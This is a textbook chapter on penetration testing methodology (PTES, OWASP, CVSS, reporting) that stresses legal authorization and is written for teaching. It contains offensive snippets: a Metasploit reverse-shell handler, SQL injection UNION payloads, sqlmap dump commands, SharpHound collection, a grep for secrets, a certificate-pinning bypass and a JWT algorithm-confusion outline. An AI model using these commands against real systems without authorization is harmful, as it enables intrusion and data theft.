

# Chapter 8: Security Testing and Penetration Testing



## 8.1 Security Testing as a Systematic Discipline

Security testing is not a single activity — it is a spectrum of practices that ranges from automated vulnerability scanning to adversarial simulation. The common thread is **intentionality**: unlike functional testing (which verifies that features work), security testing specifically attempts to find ways to make the system fail in security-relevant ways. A security tester's mindset must be adversarial: assume the existence of vulnerabilities, actively attempt to find them, and demonstrate exploitability.

This chapter distinguishes three key points on the security testing spectrum:

| Approach | Who | Knowledge | Authorization | Goal |
|----------|-----|-----------|---------------|------|
| **Vulnerability Scanning** | Automated tool | None / Black-box | Implicit in scan policy | Enumerate known CVEs |
| **Penetration Testing** | Security professional | Variable | Explicit written authorization | Demonstrate exploitability |
| **Red Team Exercise** | Adversary simulation team | Black-box initially | Explicit authorization | Simulate APT — full kill chain |
| **Bug Bounty** | Independent researchers | Black-box | Program scope | Find unknown vulnerabilities |

Each approach serves a distinct assurance purpose. Automated scanning provides broad coverage of known issues. Penetration testing proves that specific vulnerabilities can be exploited in your specific environment. Red team exercises test the organization's detection and response capabilities, not just the technical controls.

> **Critical Distinction:** A penetration test without proper written authorization is a **criminal act** under the Computer Fraud and Abuse Act (CFAA) and equivalent laws worldwide. The Rules of Engagement (ROE) document transforms ethical hacking from crime to professional service.

---

## 8.2 Penetration Testing Methodology: PTES

The **Penetration Testing Execution Standard (PTES)** defines a comprehensive, phase-based methodology for professional penetration testing engagements. Each phase produces specific deliverables and gates entry to the next phase.

### Phase 1: Pre-Engagement

Before touching any systems, the engagement must be formally scoped and authorized:

- **Scope definition** — Explicit IP ranges, domain names, applications, and systems in scope; clear statement of out-of-scope items
- **Rules of Engagement (ROE)** — Testing hours (maintenance windows), notification requirements, emergency stop conditions
- **Legal authorization** — Signed statement of work, authorization to test, liability clauses
- **Goals and success criteria** — What are we trying to prove or discover? Compromise a specific data store? Test ransomware resilience? Validate firewall rule effectiveness?
- **Communication plan** — Who is notified if critical infrastructure is accidentally affected?

```
RULES OF ENGAGEMENT TEMPLATE:
  Scope:          192.168.1.0/24, *.example-corp.com (excluding mail.example-corp.com)
  Testing Window: Mon-Fri 18:00-06:00 EST
  Excluded:       Production payment processing system, physical security
  Emergency Stop: Call +1-555-SOC-TEAM immediately if data exfiltration tools trigger
  Authorization:  Signed by CISO Jane Smith, Date: YYYY-MM-DD, Ref: SOW-2024-PT-003
```

### Phase 2: Intelligence Gathering (Reconnaissance)

Reconnaissance maps the target's attack surface before any active probing begins. **Passive reconnaissance** uses only public information sources — the target is never contacted:

- **OSINT** — Google dorking (`site:example.com filetype:pdf confidential`), LinkedIn employee enumeration
- **DNS enumeration** — Zone transfers, subdomain brute force, certificate transparency logs (crt.sh)
- **WHOIS and IP history** — Registrar data, BGP routing, historical DNS records
- **Shodan/Censys** — Internet-wide port and service scans; find exposed services the client didn't know about
- **Code repositories** — GitHub, GitLab, BitBucket — leaked credentials, API keys, internal architecture hints

**Active reconnaissance** contacts the target systems directly (within scope authorization):

```bash
# Subdomain enumeration
subfinder -d example.com -o subdomains.txt
amass enum -d example.com -o amass_results.txt

# Port and service discovery
nmap -sV -sC -p- --open -oA nmap_full 192.168.1.0/24

# Web technology fingerprinting
whatweb https://example.com
wappalyzer-cli https://example.com
```

### Phase 3: Vulnerability Analysis

With the attack surface mapped, systematically identify vulnerabilities using both automated and manual techniques:

```bash
# Automated vulnerability scanning
nessus-cli scan --target 192.168.1.100 --policy "Web Application"
openvas-cli --start-scan --target example.com

# Web-specific scanning
nikto -h https://example.com -Format htm -o nikto_results.htm
```

Manual analysis focuses on logic flaws, business process vulnerabilities, and misconfiguration that automated tools miss.

### Phase 4: Exploitation

Exploitation proves that identified vulnerabilities are actually exploitable in this specific environment — not just theoretical. This phase requires careful execution to avoid causing availability impacts:

**Metasploit Framework** is the industry-standard exploitation platform:

```bash
msfconsole
msf6 > search type:exploit name:apache
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.1
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run
```

For web applications, manual exploitation demonstrates impact more convincingly than automated tools:

```
# SQL injection proof: extract user table schema
' UNION SELECT table_name,column_name,data_type FROM information_schema.columns--
# Demonstrates: attacker can enumerate entire database structure
```

### Phase 5: Post-Exploitation

After gaining initial access, post-exploitation demonstrates the full impact of a successful attack — what a real adversary could accomplish from this foothold:

- **Privilege escalation** — From unprivileged user to local admin or root (kernel exploits, SUID binaries, misconfigured services)
- **Lateral movement** — Pivoting from the compromised system to adjacent systems using harvested credentials or trust relationships
- **Credential harvesting** — Dumping password hashes, cleartext credentials from memory, browser-stored passwords
- **Data access mapping** — What sensitive data is accessible from this position?
- **Persistence** — How would an attacker maintain access? (registry run keys, cron jobs, backdoor accounts)

```bash
# BloodHound/SharpHound: Active Directory attack path analysis
SharpHound.exe -c All --zipfilename bloodhound_data.zip
# Visualizes shortest path from compromised user to Domain Admin
```

### Phase 6: Reporting

The report is the primary deliverable of a penetration test. A professional pentest report contains:

**Executive Summary** (2-3 pages, non-technical):
- Engagement objectives and scope
- Overall risk rating and key findings
- Critical recommended actions
- Business impact language

**Technical Findings** (per vulnerability):
- Title and CVE/CWE reference
- CVSS v3.1 base score and vector
- Affected systems/endpoints
- Detailed proof-of-concept with screenshots
- Remediation recommendation with priority

```
Finding: SQL Injection in User Search Endpoint
CVSS: 9.8 (Critical) — AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CWE: CWE-89 — Improper Neutralization of Special Elements in SQL Commands
Affected: GET /api/v1/users/search?name=<PAYLOAD>
Evidence: [Request/Response screenshots]
PoC: curl "https://api.example.com/v1/users/search?name=1'+UNION+SELECT..."
Remediation: Use parameterized queries (PreparedStatement); input validation as defense-in-depth
Priority: Critical — Remediate within 48 hours
```

---

## 8.3 OWASP Testing Guide Methodology

The **OWASP Testing Guide (OTG)** v4.2 provides a structured methodology specifically for web application security testing, organized into 11 testing categories:

| Category | Code | Example Tests |
|----------|------|---------------|
| Information Gathering | OTG-INFO | Technology fingerprinting, spider/crawl |
| Configuration Management | OTG-CONF | TLS configuration, HTTP headers, cloud storage |
| Identity Management | OTG-IDENT | Account enumeration, username policies |
| Authentication Testing | OTG-AUTHN | Credential brute force, lockout bypass, MFA bypass |
| Authorization Testing | OTG-AUTHZ | IDOR, privilege escalation, path traversal |
| Session Management | OTG-SESS | Token analysis, fixation, CSRF |
| Input Validation | OTG-INPVAL | SQLi, XSS, XXE, SSTI, command injection |
| Error Handling | OTG-ERRH | Stack traces, verbose error messages |
| Cryptography | OTG-CRYPT | Weak algorithms, certificate issues |
| Business Logic | OTG-BUSLOGIC | Workflow bypass, price manipulation |
| Client-Side Testing | OTG-CLIENT | DOM XSS, CORS, WebSockets |

---

## 8.4 Web Application Security Testing Techniques

### SQL Injection Testing

```bash
# Manual detection: error-based
?id=1'   # → Database error message = injection point confirmed
?id=1 AND 1=1  # → Normal response
?id=1 AND 1=2  # → Different response = blind Boolean injection confirmed

# Automated exploitation
sqlmap -u "https://example.com/item?id=1" --dbs --batch
sqlmap -u "https://example.com/item?id=1" -D myapp -T users --dump
```

### Authentication Testing

Credential attacks require rate limiting analysis:
```
Test: Submit 10 failed login attempts → does account lock?
Test: Submit 11th attempt after lockout → is lockout enforced?
Test: Change capitalization/username variations → does normalization enable bypass?
Test: Password reset token — is it guessable? Does it expire? Can it be reused?
```

### Session Management Testing

```python
# Session token entropy analysis
import base64, json, hashlib

def analyze_jwt(token):
    parts = token.split('.')
    header = json.loads(base64.urlsafe_b64decode(parts[0] + '=='))
    payload = json.loads(base64.urlsafe_b64decode(parts[1] + '=='))
    
    # Check for algorithm confusion
    if header.get('alg') == 'none':
        print("CRITICAL: Algorithm 'none' accepted!")
    
    # Check expiration
    import time
    if payload.get('exp', 0) - time.time() > 86400:
        print("WARNING: Token valid for more than 24 hours")
    
    return header, payload
```

### API Security Testing

REST APIs present unique attack surfaces beyond traditional web applications:

```bash
# GraphQL introspection (reveals full schema — often enabled in production)
curl -X POST https://api.example.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __schema { types { name fields { name } } } }"}'

# IDOR testing: access other users' resources
GET /api/v1/invoices/1001  # My invoice
GET /api/v1/invoices/1002  # Another user's invoice — do I get it?

# JWT algorithm confusion attack
# Decode RS256 token, switch alg to HS256, sign with public key as HMAC secret
```

---

## 8.5 Mobile Application Security Testing

The **OWASP Mobile Application Security Testing Guide (MASTG)** defines testing procedures for iOS and Android applications. The **OWASP MASVS (Mobile Application Security Verification Standard)** provides the corresponding requirements baseline.

Key mobile testing areas:

- **Reverse engineering** — Decompiling APKs (jadx, apktool), analyzing iOS IPA files (class-dump)
- **Certificate pinning bypass** — Using Frida or Objection to bypass SSL certificate validation
- **Local data storage** — SQLite databases, SharedPreferences, Keychain analysis for sensitive data
- **Dynamic analysis** — MobSF (Mobile Security Framework), Drozer for Android

```bash
# Android APK analysis workflow
apktool d target.apk -o target_decompiled/
jadx -d target_jadx/ target.apk
grep -r "API_KEY\|password\|secret" target_jadx/

# Bypass certificate pinning
frida -U -l ssl_pinning_bypass.js com.target.app
```

---

## 8.6 CVSS Scoring and Risk Communication

The **Common Vulnerability Scoring System (CVSS) v3.1** provides a standardized framework for rating vulnerability severity. The Base Score (0-10) is calculated from:

| Metric | Options |
|--------|---------|
| **Attack Vector (AV)** | Network / Adjacent / Local / Physical |
| **Attack Complexity (AC)** | Low / High |
| **Privileges Required (PR)** | None / Low / High |
| **User Interaction (UI)** | None / Required |
| **Scope (S)** | Unchanged / Changed |
| **Confidentiality (C)** | None / Low / High |
| **Integrity (I)** | None / Low / High |
| **Availability (A)** | None / Low / High |

```
Example: Remote SQL injection with no auth, full database access
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H = 9.8 (Critical)
```

Score ranges and action timelines:
- **Critical (9.0-10.0)** — Remediate within 24-72 hours
- **High (7.0-8.9)** — Remediate within 7-14 days
- **Medium (4.0-6.9)** — Remediate within 30-60 days
- **Low (0.1-3.9)** — Remediate in next planned sprint

---

## 8.7 Retesting and Remediation Verification

A professional penetration test engagement includes retesting after remediation:

1. Client implements fixes based on report recommendations
2. Penetration tester re-executes specific test cases against fixed vulnerabilities
3. Retest report confirms fixes are effective and no regressions introduced
4. Closure report documents final security posture

The retest is as important as the initial test — it validates that the remediation actually fixed the vulnerability and didn't introduce new issues. A patch that fixes the specific PoC but not the underlying vulnerability class (e.g., parameterizing one query but not others) will fail retest.

---

## Key Terms

| Term | Definition |
|------|-----------|
| **PTES** | Penetration Testing Execution Standard — phases-based methodology for pentest engagements |
| **Rules of Engagement** | Formal document defining scope, authorization, and constraints for a pentest |
| **OSINT** | Open Source Intelligence — gathering information from public sources |
| **Shodan** | Internet-connected device search engine used for reconnaissance |
| **Metasploit** | Open-source exploitation framework by Rapid7 |
| **BloodHound** | Active Directory attack path visualization tool |
| **CVSS** | Common Vulnerability Scoring System — standardized severity rating framework |
| **OWASP Testing Guide** | Methodology for web application security testing (OTG) |
| **IDOR** | Insecure Direct Object Reference — broken access control to others' resources |
| **JWT** | JSON Web Token — commonly tested for algorithm confusion and signature bypass attacks |
| **MASVS** | Mobile Application Security Verification Standard (OWASP) |
| **Privilege Escalation** | Gaining higher permissions than initially granted after initial access |
| **Lateral Movement** | Pivoting from one compromised system to other systems in the network |
| **Post-Exploitation** | Activities conducted after initial access to demonstrate full attack impact |
| **Retest** | Re-execution of test cases after remediation to verify fixes are effective |
| **Bug Bounty** | Program offering rewards to independent researchers for discovering vulnerabilities |
| **Red Team** | Adversary simulation exercise testing detection and response capabilities |
| **SQL Injection** | Injection of SQL metacharacters to manipulate database queries |
| **Certificate Pinning** | Mobile app technique binding to specific TLS certificate — often requires bypass testing |
| **CFAA** | Computer Fraud and Abuse Act — US federal law governing unauthorized computer access |

---

## Review Questions

1. Distinguish between a **vulnerability scan**, a **penetration test**, and a **red team exercise**. What assurance question does each one answer, and when is each appropriate?

2. Why is a written Rules of Engagement document essential before penetration testing begins? What legal statute in the US would apply if a tester operated without authorization?

3. Walk through the six PTES phases for a web application penetration test. For each phase, identify one critical activity that must be completed before moving to the next phase.

4. Explain the difference between **active and passive reconnaissance**. Provide three specific techniques for each category and explain why passive recon might be conducted even during a fully authorized engagement.

5. A CVSS 3.1 score of 9.8 Critical has been assigned to a SQL injection vulnerability: `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`. Interpret each component of the vector string and explain why this score is so high.

6. Describe how **BloodHound/SharpHound** is used during the post-exploitation phase of an Active Directory environment assessment. What attack paths does it visualize?

7. You are testing a REST API that uses JWT tokens for authentication. Describe three specific JWT attacks you would test for and explain how each one could be exploited if successful.

8. The OWASP Testing Guide includes a "Business Logic Testing" category. Why can't automated scanners reliably find business logic flaws? Describe two examples of business logic vulnerabilities that require manual testing.

9. After completing a penetration test, you find a critical SQL injection vulnerability, two high-severity authentication bypasses, and five medium-severity issues. Write the Executive Summary section of the penetration test report communicating these findings to the CISO.

10. Explain the mobile testing technique of **certificate pinning bypass** using Frida. What security property does certificate pinning provide, and under what conditions does bypass testing constitute legitimate security testing versus unauthorized interception?

---

## Further Reading

1. **PTES Technical Guidelines.** (2014). *Penetration Testing Execution Standard*. pentest-standard.org. — The definitive community-maintained standard for professional penetration testing methodology.

2. **OWASP.** (2023). *OWASP Testing Guide v4.2*. owasp.org/www-project-web-security-testing-guide. — Comprehensive web application security testing methodology with detailed test cases for each vulnerability category.

3. **Engebretson, P.** (2013). *The Basics of Hacking and Penetration Testing* (2nd ed.). Syngress. — Accessible introduction to the full penetration testing workflow with hands-on examples.

4. **First.org.** (2019). *CVSS v3.1 Specification Document*. first.org/cvss. — Official specification for the Common Vulnerability Scoring System including scoring guidance and examples.

5. **OWASP.** (2023). *Mobile Application Security Testing Guide (MASTG)*. mas.owasp.org. — The definitive reference for mobile application security testing on Android and iOS platforms.
